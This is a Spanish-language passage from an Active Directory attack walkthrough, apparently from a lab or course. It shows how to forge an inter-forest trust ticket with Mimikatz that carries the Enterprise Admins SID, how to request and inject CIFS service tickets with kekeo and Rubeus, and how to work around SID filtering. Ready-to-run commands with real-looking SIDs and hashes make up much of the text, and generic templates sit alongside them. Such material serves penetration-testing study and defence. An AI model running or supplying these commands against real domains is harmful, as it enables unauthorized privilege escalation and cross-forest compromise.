 Ahora se forjará un TGT entre eu.local y euvendor.local, y con un RID igual a 519 (Enterprise Admins) desde ``eu-dc.eu.local``:

```
### Generar un TGT entre bosques para el usuario Administrator 
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'

Invoke-Mimikatz -Command '"kerberos::golden /user:<user> /domain:<dominio_pwned> /sid:<sid_dominio_pwned> /rc4:<rc4_hash_eu/euvendor$> /service:krbtgt /target:<dominio_objetivo> /sids:<sid_dominio_objetivo>-<RID_objetivo> /ticket:<output_ticket.kirbi>"'
```

```
### Solicitar TGS
### Obtener TGS para un servicio (CIFS) mediante el ticket de confianza falsificado
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor-
dc.euvendor.local

## Uso del TGS para acceder al recurso destino
.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi
ls \\euvendor-dc.euvendor.local\eushare\
```

También se pueden crear tickets para otros servicios (como HOST y RPCSS para WMI, HOST y HTTP para PowerShell Remoting y WinRM).

Rubeus también puede ser usado para pasar el ticket de confianza falsificado y solicitar el TGS mediante un solo comando:

```
### Rubeus
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt

C:\Users\Public\Rubeus.exe asktgs /ticket:<output_ticket.kirbi> /service:HTTP/some_machine.other_forest.local /dc:some-dc.other_forest.local /ptt
```

Hasta este momento se tiene un TGS para el servicio ``CIFS`` sobre ``euvendor-dc.euvendor.local`` como Enterprise Admin. Deberíamos poder acceder a todos sus recursos pero... **¿Por qué no podemos acceder a todos los recursos igual que dentro del bosque?**

La respuesta es el filtrado de SID que filtra los SID de alto privilegio del SIDHistory de un TGT que cruza el límite del bosque. Esto significa que no podemos acceder a todos los recursos del bosque de confianza como Enterprise Admins.

**¿Cómo evitar SIDFiltering?**

Para evitar SIDFiltering considerar ``S-1-5-21-<Dominio>-R`` cuando ``RID >= 1000``, es decir, identificadores para identidades de dominio y grupos de dominio creados por usuarios.
Si tenemos una confianza externa (o ``/enablesidhistory:yes``) puede intentar acceder a los recursos accesibles para el RID especificado siempre que RID > 1000

 ``/enablesidhistory:yes`` Indica un bosque con el historial de SID habilitado

